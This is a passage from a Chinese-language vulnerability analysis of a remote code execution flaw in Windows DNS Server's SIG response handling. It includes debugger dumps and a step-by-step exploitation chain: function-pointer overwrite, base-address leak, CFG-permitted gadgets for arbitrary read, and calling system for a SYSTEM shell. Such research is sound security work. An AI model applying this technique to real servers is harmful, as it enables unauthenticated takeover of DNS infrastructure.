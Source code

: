 如果可以将 DnsTimeoutObject（0x38 大小）分配到可控的位置，再利用溢出覆盖 pItem 和 pFreeFunction，就可以在对象释放时控制执行流程（允许执行带一个参数的函数）。而且，原始的 pFreeFunction 指向 dns!RR_Free，可通过将其泄露从而进一步获取 DNS 基址（这需要收集不同版本的偏移）。

```
0:021> db 17e`f599f630 l50
0000017e`f599f630  00 00 00 00 bb 07 50 00-ef 0c 0c 0c 0c 0c 0c fe  ......P.........
0000017e`f599f640  10 16 03 e7 7e 01 00 00-70 9f 02 e7 7e 01 00 00  ....~...p...~...
0000017e`f599f650  b0 4a e4 d8 f7 7f 00 00-b8 9f f6 d8 f7 7f 00 00  .J..............
0000017e`f599f660  fe ed 1a de a8 00 00 00-00 00 00 00 00 00 00 00  ................
0000017e`f599f670  00 00 00 00 00 00 00 00-00 00 00 00 00 00 00 00  ................
 
0:021> u 7ff7`d8e44ab0    //偏移 0x10 处（不包括头部）的函数指针
dns!RR_Free:
00007ff7`d8e44ab0 4885c9          test    rcx,rcx
00007ff7`d8e44ab3 0f8434020000    je      dns!RR_Free+0x23d (00007ff7`d8e44ced)
00007ff7`d8e44ab9 48895c2408      mov     qword ptr [rsp+8],rbx
00007ff7`d8e44abe 48896c2410      mov     qword ptr [rsp+10h],rbp
00007ff7`d8e44ac3 4889742418      mov     qword ptr [rsp+18h],rsi
00007ff7`d8e44ac8 57              push    rdi
00007ff7`d8e44ac9 4154            push    r12
00007ff7`d8e44acb 4156            push    r14
 
0:021> db 17e`e7029f70-10  //偏移 0x8 处的一个 SOA 对象指针
0000017e`e7029f60  00 00 00 00 bb 22 8a 00-ef 0c 0c 0c 0c 0c 0c fe  ....."..........
0000017e`e7029f70  00 00 00 00 00 00 00 00-61 80 10 22 06 00 2d 00  ........a.."..-.
0000017e`e7029f80  ae 01 00 00 ae 01 00 00-00 00 00 00 01 00 00 00  ................
0000017e`e7029f90  00 00 00 00 00 00 00 00-00 00 00 00 00 00 00 00  ................
0000017e`e7029fa0  00 00 00 00 00 00 00 00-00 00 00 00 00 00 00 00  ................
0000017e`e7029fb0  00 00 00 00 00 00 00 00-00 00 00 00 01 00 00 14  ................
0000017e`e7029fc0  03 04 73 70 5f 30 09 79-79 79 79 79 79 79 79 74  ..sp_0.yyyyyyyyt
0000017e`e7029fd0  03 66 75 6e 00 00 00 00-00 00 00 00 00 00 00 00  .fun............

```

先前，研究人员已经找到了 CFG 允许执行的且只需要一个参数的 dns!NsecDNSRecordConvert 函数，它可以将第一个参数偏移 0x20 处的字符串复制到新开辟的区域，这允许我们进行任意地址读取。我们可以通过设置 v1 偏移 0x28 处的数据使 Rpc_AllocateRecord 函数申请到我们可控的区域，然后再使用数据泄露思路进行读取。

 

![](https://bbs.pediy.com/upload/attach/202101/701197_9Q3BDE98A49R7DZ.png)

 

为了获得 msvcrt!system 函数（CFG 允许）的地址，可通过上述思路进一步泄露 msvcrt!memcpy 函数地址，然后根据偏移计算出 system 函数地址。但这还需要一个可控的参数地址，可通过连续释放两个对象，然后泄露后一个对象空间来获得堆指针，将 dns!_imp_memcpy 地址布局到该地址偏移 0x20 处。成功获取 msvcrt!system 函数地址后，采用同样的思路调用 system 可获得任意命令执行。

 

![](https://bbs.pediy.com/upload/attach/202101/701197_JVNH8T3BBBNJB2T.png)

##### 总结

Windows DNS Server 在处理特制的 SIG 响应包时，存在远程代码执行漏洞，未经身份验证的攻击者可通过向目标 DNS 服务器查询并响应 SIG 请求来利用此漏洞，成功利用此漏洞的远程攻击者可在目标系统上以 SYSTEM 账户权限执行任意代码。本文对此漏洞进行分析，并参考链接 [2-3] 中的漏洞利用思路，在实验环境下拿到了 SYSTEM SHELL，如下所示。PS：实验环境是指将 DNS 服务器转发器配置为攻击者控制的 NS 服务器。由于真实环境下的 DNS 服务器会处理大量请求，此思路可能无法很好地应用于实战。
